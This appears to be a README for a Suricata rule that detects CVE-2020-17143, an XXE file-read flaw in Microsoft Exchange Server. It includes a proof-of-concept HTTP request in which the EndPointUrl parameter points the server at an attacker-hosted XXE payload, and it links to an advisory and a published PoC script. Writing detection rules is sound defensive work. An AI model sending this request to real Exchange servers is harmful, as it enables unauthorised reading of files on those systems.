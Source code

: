 ## Overview
CVE-2020-17143 is an XXE Injection vulnerability that allows attackers to read arbitrary files on the system running the vulnerable versions of Microsoft Exchange Server.

In the Suricata rule, I try to capture the action **GetWacIframeUrlForOneDrive** and the parameter **EndPointUrl**, which holds the URL to the C&C server to download the XXE payload.

## Proof of Concept
```
POST /owa/service.svc HTTP/1.1
Host: example.com
X-OWA-UrlPostData: {"request":{"DocumentUrl":"","EndPointUrl":"http://10.0.2.15:9090/poc.xml"}}
Action: GetWacIframeUrlForOneDrive
Content-Length: 0
```

## References
* https://srcincite.io/advisories/src-2020-0030/
* https://srcincite.io/pocs/cve-2020-17143.py.txt
* https://portal.msrc.microsoft.com/security-guidance/advisory/CVE-2020-17143
